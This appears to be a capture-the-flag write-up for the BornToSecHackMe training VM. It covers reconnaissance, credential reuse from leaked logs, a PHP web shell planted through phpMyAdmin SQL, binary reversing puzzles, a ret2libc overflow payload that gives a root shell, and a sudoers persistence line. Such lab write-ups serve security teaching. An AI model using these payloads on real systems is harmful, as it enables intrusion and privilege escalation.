







# Write Up 1

The first thing we need to do is to try to get a way to connect into the virtual machine, so we need the IP address of the VM

# Getting Machine IP

For and easier to get it, we do the following setup in the virtual box

`Virtual box > File > Host Network Manager > Create`

This will create a new `Host-only adapter` with the name of `vboxnet0`

Next go to the setting of machine we use for our project, go to network section, use the adapter `Host-only Adapter` and select `vboxnet0`



Now we can use the command `ifconfig` to get IP

```console
  vboxnet0: flags=8943<UP,BROADCAST,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500
	ether 0a:00:27:00:00:00
	inet 192.168.56.1 netmask 0xffffff00 broadcast 192.168.56.255
```

Here we can see that the `vboxnet0` have the IP of `192.168.56.1`, but this is the IP address of the virtual box, not the IP for our VM

To get the correct address, we can up `nmap` to scan all the port in that range from `192.168.56.0 - 255`

For mac we can use `brew install nmap`

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-29 14:55 CEST
Nmap scan report for 192.168.56.1
Host is up (0.00015s latency).
All 1000 scanned ports on 192.168.56.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Nmap scan report for 192.168.56.100
Host is up (0.00036s latency).
All 1000 scanned ports on 192.168.56.100 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Nmap scan report for 192.168.56.101
Host is up (0.00071s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 256 IP addresses (3 hosts up) scanned in 49.48 seconds
```

There we have the IP `192.168.56.101` with several port open, lets try to check it we can access the IP from our browser through port 80 (http)


Success! we have gain the correct IP for our machine!


# Investigate the webpage

Next we can use another tool called `dirp` to scan (DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects.)

To install it in our mac, we can use following steps

```console
cd ~/Applications
wget https://downloads.sourceforge.net/project/dirb/dirb/2.22/dirb222.tar.gz
tar -xvf dirb222.tar.gz
rm dirb222.tar.gz
brew install autoconf
chmod -R 755 dirb222
cd dirb222
./configure
make
make install
add the path to the binary:
export PATH=$PATH:{binary path}
```

Then use the following command `./dirb https://192.168.56.101 wordlists/common.txt` on the dirb222 directory

```console
---- Scanning URL: https://192.168.56.101/ ----
+ https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.56.101/forum/
==> DIRECTORY: https://192.168.56.101/phpmyadmin/
+ https://192.168.56.101/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.56.101/webmail/
```

The result shows that there are directories on the server named `forum`, `phpmyadmin` and `webmail` so let's try https://192.168.56.101/forum



When we click on the `Probleme login?`, we are directed to another page who has lots logs of user lmezard and there is something interesting:

```console
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
`!q\]Ej?*5K5cy*AJ` looks like a password, maybe have a try?

Click in login, and username lmezard and `!q\]Ej?*5K5cy*AJ` for password ------ wtf, we logged in !



Now click on the top right side on his name, and we are in the edit profile page and we have `E-mail: laurie@borntosec.net`

Next we can head to `https://192.168.56.101/webmail` one of the page found by `dirb`

We can use the `Name: laurie@borntosec.net` and `Password: !q\]Ej?*5K5cy*AJ` to login to the webmail service



This email contain something interesting

```console
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Sounds like we can try that on `https://192.168.56.101/phpmyadmin/`

```console
Username: root
Password: Fg-'kKXBj87E:aJ$
```

And success! now we are able to go into the database~


# Exploit on the database (phpMyAdmin)

Base on the article in this website `https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/`

We can use SQL injection to spawn a shell!



Use this command for the injection

`SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/hack.php"`

`templates_c` is one of the subdirectory from the forum which allow us to create a new file, so this is where we will inject this exploit



Next we can go to `https://192.168.56.101/forum/templates_c/hack.php?cmd=ls%20/` to try up some command to check if this work, and it successfully call up the `ls /` command!

After checking all the directory, we found something interesting on the `home` directory with this link `https://192.168.56.101/forum/templates_c/hack.php?cmd=ls%20/home`

```console
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```

It seems like there is a several directory, and the `LOOKATME` caught our attention, lets investigate further

```console
https://192.168.56.101/forum/templates_c/hack.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.56.101/forum/templates_c/hack.php?cmd=ls%20/home/LOOKATME
password

https://192.168.56.101/forum/templates_c/hack.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

This is getting more and more instresting!

# Using FTP with lmezard login

We have tried to use ssh with lmezard login, but we have permission denied.

But we could still use another way, since the FTP port 21 is open as well, we could try to connect to the VM via FTP

```console
ftp lmezard@192.168.56.101
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for README (96 bytes).
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
96 bytes received in 0.00022 seconds (426 kbytes/s)
ftp> get fun
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for fun (808960 bytes).
WARNING! 2764 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
808960 bytes received in 0.078 seconds (9.89 Mbytes/s)
ftp> bye
221 Goodbye.
```

We could see the `lmezard` user have 2 files, lets get this 2 file into our local machine and try to analyze it

```console
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Okay, the challenge should be inside the file `fun` then, hope it will be fun....

```console
file fun
fun: POSIX tar archive (GNU)
```

We can see that this file is a `tar archive` we can unarchive it with the command `tar xvf fun`

After we extract the file, we have a folder called `ft_fun` with a lot of `pcap` file.

`Wireshark` will not be able to analyze these file as it is invalid pcap file, instead it contain part of c code inside.

After struggle for a long time to get the correct information for those bunch of bizzare file, we decide to write a python script to combine them up together inside a single `main.c`

```console
python3 scripts/convert_pcap_to_c.py -p ft_fun
gcc main.c              
./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%

echo -n 'Iheartpwnage' | shasum -a 256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

Now we have the password for `laurie`!!

# SSH on laurie

This time, we could use SSH like usual for the user `laurie` lets check what we could have here

```console
laurie@BornToSecHackMe:~$ ls
README  bomb
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

It looks like a challenge and we need to find 6 phrase to diffuse the bomb program, lets download the `bomb` binary via `scp -P 22 laurie@192.168.56.101:/home/laurie/bomb .`

Next we can download `Ghidra` to help us analyze the binary and decompile it
`https://medium.com/the-bkpt/setting-up-ghidra-on-macos-19b7b0becf7c`


<h3>PHASE 1</h3>

```console
void phase_1(char* string)
{
  int result;
  
  result = strings_not_equal(string,"Public speaking is very easy.");
  if (result != 0) {
    explode_bomb();
  }
  return;
}
```

Answer = `Public speaking is very easy.`


<h3>PHASE 2</h3>

```console
void phase_2(char* string)
{
  int index;
  int numberArray[7];
  
  read_six_numbers(string, numberArray + 1);
  if (numberArray[1] != 1) {                                            -> first number must be 1
    explode_bomb();
  }
  index = 1;
  do {
    if (numberArray[index + 1] != (index + 1) * numberArray[index]) {   -> start to compare from the second number (index + 1)
      explode_bomb();                                                  
    }
    index = index + 1;
  } while (index < 6);
  return;
}
```

Base on the code the first number must be 1, the subsequence number will be base on the formula "numberArray[index + 1] != (index + 1) * numberArray[index]"

```console
numberArray[1] = 1
numberArray[1 + 1] = (1 + 1) * 1 -> numberArray[2] = 2
numberArray[2 + 1] = (2 + 1) * 2 -> numberArray[3] = 6
numberArray[3 + 1] = (3 + 1) * 6 -> numberArray[4] = 24
numberArray[4 + 1] = (4 + 1) * 24 -> numberArray[5] = 120
numberArray[5 + 1] = (5 + 1) * 120 -> numberArray[2] = 720
```

Answer = 1 2 6 24 120 720


<h3>PHASE 3</h3>

```console
void phase_3(char* string)
{
  int inputCount;
  char c;
  uint number1;
  char char1;
  int number2;
  
  inputCount = sscanf(string,"%d %c %d",&number1,&char1,&number2);    -> get 1 number, 1 char, 1 number from command line input
  if (inputCount < 3) {
    explode_bomb();
  }
  switch(number1) {
    case 0:
      c = 'q';
      if (number2 != 0x309) {
        explode_bomb();
      }
      break;
    case 1:
      c = 'b';
      if (number2 != 0xd6) {                                          -> 0xd6 = 214
        explode_bomb();
      }
      break;
    case 2:
      c = 'b';
      if (number2 != 0x2f3) {                                         -> 0x2f3 = 755
        explode_bomb();
      }
      break;
    case 3:
      c = 'k';
      if (number2 != 0xfb) {
        explode_bomb();
      }
      break;
    case 4:
      c = 'o';
      if (number2 != 0xa0) {
        explode_bomb();
      }
      break;
    case 5:
      c = 't';
      if (number2 != 0x1ca) {
        explode_bomb();
      }
      break;
    case 6:
      c = 'v';
      if (number2 != 0x30c) {
        explode_bomb();
      }
      break;
    case 7:
      c = 'b';
      if (number2 != 0x20c) {                                         -> 0x20c = 524
        explode_bomb();
      }
      break;
    default:
      c = 'x';
      explode_bomb();
  }
  if (c != char1) {
    explode_bomb();
  }
  return;
}
```

Base on the README hint, the 3 password should contain 'b' as the second character, so possible answer should be:
```console
1 b 214
2 b 755
7 b 524
```


<h3>PHASE 4</h3>

```console
void phase_4(char* string)
{
  int inputCount;
  int inputNumber;
  
  inputCount = sscanf(string,"%d",&inputNumber);            -> scan 1 number
  if ((inputCount != 1) || (inputNumber < 1)) {             -> must be 1 input
    explode_bomb();
  }
  inputCount = func4(inputNumber);
  if (inputCount != 0x37) {                                 -> 0x37 = 55
    explode_bomb();
  }
  return;
}

int func4(int inputNumber)
{
  int nb1;
  int nb2;
  
  if (inputNumber < 2) {
    nb2 = 1;
  }
  else {
    nb1 = func4(inputNumber + -1);
    nb2 = func4(inputNumber + -2);
    nb2 = nb2 + nb1;
  }
  return nb2;
}
```

Phase_4 will get a number as input and will go through func4 recursive function to translate it into another number

The result of that shoulde be 0x37 or 55, since its a recursive function, it will be easier if we run the compiled code and test it.

Answer = 9


<h3>PHASE 5</h3>

```console
void phase_5(char* inputString)
{
  int number;
  char* string[6];
  int unused;
  
  number = string_length(inputString);
  if (number != 6) {                                                                -> check if inputString is 6 char
    explode_bomb();
  }
  number = 0;
  char*  array123= "isrveawhobpnutfg"
  do {
    string[number] = (&array123)[(char)(*(byte *)(number + inputString) & 0xf)];    -> (char)(*(byte *)(number + inputString) is the same as inputString[number]
    number = number + 1;                                                               inputString[number] & 0xf will get the final index
  } while (number < 6);
  unused = 0;
  number = strings_not_equal(string,"giants");
  if (number != 0) {
    explode_bomb();
  }
  return;
}
```

```console
character index inside the array123
array123[0] = i
array123[1] = s
array123[2] = r
array123[3] = v
array123[4] = e
array123[5] = a
array123[6] = w
array123[7] = h
array123[8] = o
array123[9] = b
array123[10] = p
array123[11] = n
array123[12] = u
array123[13] = t
array123[14] = f
array123[15] = g
```

Example of applying the mask 0xf,

```console
a = 0x61 & 0xf = 0x1 = 1
b = 0x62 & 0xf = 0x2 = 2
```

basically the operation "& 0xf" will strip away the high nibble and left the low nibble

Base on this logic, we could deduct the following sequence (We asumme that the possible are only from a-z, but any char in ascii table could be possible as well)

```Console
abcde fghij klmno pqrst uvwxy z
srvea whobp nutfg isrve awhob p
```

From the order above we could have the following possible answer

```console
g = o
i = p
a = e / u
n = k
t = m
s = a / q

Possible answer:
opekma
opekmq
opukma
opukmq
```

<h3>PHASE 6</h3>

Global node data

```console
0x0804b26c -> [0xfd, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x60, 0xb2, 0x04, 0x08]; 
0x0804b260 -> [0xd5, 0x02, 0x00, 0x00, 0x02, 0x00, 0x00, 0x00, 0x54, 0xb2, 0x04, 0x08]; 
0x0804b254 -> [0x2d, 0x01, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, 0x48, 0xb2, 0x04, 0x08]; 
0x0804b248 -> [0xe5, 0x03, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x3c, 0xb2, 0x04, 0x08]; 
0x0804b23c -> [0xd4, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x30, 0xb2, 0x04, 0x08]; 
0x0804b230 -> [0xb0, 0x01, 0x00, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]; 

int node1 = [0x000000fd, 0x00000001, 0x0804b260];
int node2 = [0x000002d5, 0x00000002, 0x0804b254];
int node3 = [0x0000012d, 0x00000003, 0x0804b248];
int node4 = [0x000003e5, 0x00000004, 0x0804b23c];
int node5 = [0x000000d4, 0x00000005, 0x0804b230];
int node6 = [0x000001b0, 0x00000006, 0x00000000];

int node1 = [253, 1, 0x0804b260];
int node2 = [725, 2, 0x0804b254];
int node3 = [301, 3, 0x0804b248];
int node4 = [997, 4, 0x0804b23c];
int node5 = [212, 5, 0x0804b230];
int node6 = [432, 6, 0];
```

```console
void phase_6(char* inputString)
{
  int* tmp_node;
  int counter;
  int* current_node;
  int index;
  void* head_node;
  int *node_array[6];
  int inputNb[6];
  
  head_node = node1;                                  -> Point head_node to global var node1 at address 0x0804b26c
  read_six_numbers(inputString,inputNb);              -> Convert string into int array

  index = 0;

  while (index < 6) {
    if (5 < inputNb[index] - 1U) {                    -> Accept any number as long as it is less or equal 6
      explode_bomb();
    }
    counter = index + 1;                              -> Start checking the input number starting from the next index
    if (counter < 6) {                                -> Loop through all the number in inputNb array
      while (counter < 6) {
        if (inputNb[index] == inputNb[counter]) {     -> Check if the current number is repeated
          explode_bomb();
        }
        counter++;
      }
    }
    index++;                                          -> (Conclusion) This double loop is to check if the input number is any number less or equal to 6
  }                                                       As well as making sure there is no repeating number
  


  index = 0;

  while (index < 6) {
    counter = 1;
    current_node = (int *)head_node;                  -> current_node is reset to address 0x0804b26c in every loop
    if (1 < inputNb[index]) {                         -> If the current input number is 1, current_node = head_node no need to go into the loop 
      while (counter < inputNb[index]) {              -> As long as the current input number is lesser then the counter
        current_node = (int *)current_node[2];        -> move current_node to the next node by using the address stored in index 2
        counter++;                                    -> (Conclusion) This loop is to retrive the nodeX base on the input number
      }
    }
    node_array[index] = current_node;                 -> Store the retrived node into the node_array
    index++;                                          -> (Conclusion) This loop will retrived the nodeX base on the input number
  }                                                       the order of the array is base on the order of our input,
                                                          example: input = 453216, node_array = [node4, node5, node3, node2, node1, node6]


  index = 1;                                          -> For example purpose, this loop will use the node_array from the example above
  current_node = node_array[0];                       -> node_array[0] = node4

  while (index < 6) {
    tmp_node = node_array[index];                     -> node_array[1] = node5, tmp_node = node5
    current_node[2] = (int)tmp_node;                  -> node4->next = node5
    current_node = tmp_node;                          -> current_node = node5
    index++;
  }                                                   -> (Conclusion) This loop is to relink all the next pointer in the node inside node_array 
  tmp_node[2] = 0;                                    -> last node inside node_array, point to 0 to prevent infinite loop


  index = 0;
  while (index < 5) (
    if (*node_array[0] < *(int *)node_array[0][2]) {  -> Compare the content of the head node to the next node, if next node is bigger, it will explode
      explode_bomb();
    }
    node_array[0] = (int *)node_array[0][2];          -> Set head node to the next node and continue the loop
    index++;
  )                                                   -> (Conclusion) This loop is to check if the node_array are in the right sorting order
                                                          base on the content of the node, we can also conclude that the order is DESC
  return;
}
```

Base on the analysis of the phase_6 function, we know that it is expecting 6 numbers which could sort the global node into the right DESC order

```console
node1 = [253, 1, 0x0804b260]; -> node1[0] = 253
node2 = [725, 2, 0x0804b254]; -> node2[0] = 725
node3 = [301, 3, 0x0804b248]; -> node3[0] = 301
node4 = [997, 4, 0x0804b23c]; -> node4[0] = 997
node5 = [212, 5, 0x0804b230]; -> node5[0] = 212
node6 = [432, 6, 0];          -> node6[0] = 432
```
Correct order = node4, node2, node6, node3, node1, node5

Answer = 4 2 6 3 1 5

Final answer:
```console
Phase_1 = Public speaking is very easy.
Phase_2 = 1 2 6 24 120 720
Phase_3 = 1 b 214 / 2 b 755 / 7 b 524
Phase_4 = 9
Phase_5 = opekma / opekmq / opukma / opukmq
Phase_6 = 4 2 6 3 1 5
```

```console
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

After testing all the possible answer above, the correct answer is
```console
Publicspeakingisveryeasy.
1 2 6 24 120 720
1 b 214 
9 
opekmq
4 2 6 3 1 5
```

In the README file, it told us that there is no space in the password,

So we tested the answer ``Publicspeakingisveryeasy.126241207201b2149opekmq426315`

But it seems the subject have a bug, and we tested for a while and finally the correct one will be `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

# Thor

```console
thor@BornToSecHackMe:~$ ls
README  turtle
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

In the thor user, there is another challenge

Lets download the file `scp -P 22 thor@192.168.56.101:/home/thor/turtle .`

```console
thor@BornToSecHackMe:~$ cat turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
[...]
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

It seems like a various command, and we found that there is a module called python-turtle

`https://realpython.com/beginners-guide-python-turtle/`

This module is designed the help beginner to learn python by giving the turtle various command for it to move,

So we created a python script to translate the file into a turtle command



From the drawing sequence of the turtle, we could make up the word `SLASH`

Since the end of the message if asking `Can you digest the message? :)`, we could try to use Digest Message (MD5)

```console
echo -n 'SLASH' | md5          
646da671ca01bb5d84dbb5fb2238dc8e
```

There we have the password for the user 'zaz'!

# Final user zaz

```console
zaz@BornToSecHackMe:~$ ls -l
total 5
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz  zaz  107 Oct  8  2015 mail
```

In the `zaz` user, we have a `exploit_me` binary and a mail folder, inside the mail folder there is nothing interesting

The `exploit_me` binary have `setuid` so we could probably gain root access from here,

The following is the decompiled version by using `Ghidra`

```console
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```

We can see that the binary is using `strcpy` which is vulnerable to buffer offer flow.

Using the guide from the following 2 URL, we can learn about how to perform a ret2libc attack

`https://shellblade.net/files/docs/ret2libc.pdf`

`https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3`

We can see from the decompiled version that the buffer is 140, lets try to see at which point we could overwriting the memory

Base on the explaination from the guide in the link above, we learned that the structure of the data looks like the following

```console
.----------------.
|   140 buffer   |  -> the buffer size that was set by the main function 
|________________| 
|   Saved EBP    |  -> base pointer of the current stack, which the program used to access the local variable
|________________|
|       RET      |  -> return address after the function ended
|________________|
```

By writting more then 140 bytes, we could potentially overwriting the content of EBP and RET, Lets try it in GDB

```console
(gdb) r $(python -c 'print "a"*140 + "b"*4 + "c"*4')
Starting program: /home/zaz/exploit_me $(python -c 'print "a"*140 + "b"*4 + "c"*4')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
```

We tested 140 "a" char, which should totally fill in the buffer, next we print 4 * "b" and 4 * "c",

The Segmentation fault happen on 0x62626262 which means that the 4 * "b" has been succesfully overwritten the EBP memory

In conclusion to overwritte the EBP address, we need an offset of 140 character.

Next we will need to spawn the shell by calling `system()` from LIBC and passing `/bin/sh` as arguments, which will be equal to system('/bin/sh')

`/bin/sh` should not be a string, we should point it from an address,

When the shell is spawned, we need to use `exit()` function, else the program will crash

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

With a simple `p` or `print` command in gdb, we can get the address of the system and exit function is LIBC

To find the pointer to `bin/sh` string, we could do the following command on gdb

```console
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

The command is to search in libc for a fixed address of a /bin/sh string

Now we have all the neccessary address to do the exploit and we should convert it to little endian
system 0xb7e6b060   -> \x60\xb0\xe6\xb7
exit 0xb7e5ebe0     -> \xe0\xeb\xe5\xb7
/bin/sh 0xb7f8cc58  -> \x58\xcc\xf8\xb7

```console
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "a"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`�����X��
# whoami
root
```

Success! now we are root!

We can grant the user zaz into the sudoers file with the following command in the shell that was spawned
```console
echo "zaz	ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Now we can try be root as zaz

```console
zaz@BornToSecHackMe:~$ sudo -s
[sudo] password for zaz:
root@BornToSecHackMe:~# whoami
root
```

Now whe have permanent root access via the zaz user!! 🥳 🎉 🎉 🎉